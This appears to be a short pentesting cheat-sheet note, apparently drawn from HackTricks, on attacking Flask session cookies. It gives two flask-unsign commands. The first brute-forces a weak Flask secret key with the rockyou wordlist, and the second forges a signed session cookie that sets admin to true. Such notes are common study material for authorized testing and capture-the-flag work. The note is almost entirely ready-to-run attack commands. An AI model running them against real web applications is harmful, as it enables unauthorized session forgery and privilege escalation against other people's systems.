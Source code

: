 
# Informations

- Default session's cookie's name : `session`
- Default session's cookie's format : JWT signed with the Flask secret key

# Weak Secret Key

**Bruteforce secret key**
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie "JWT_HERE" --no-literal-eval
```

**Craft a new session cookie**
```bash
flask-unsign --sign --cookie "{'admin': 'true', 'username':'guest'}" --secret 's3cre3t'
```

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask
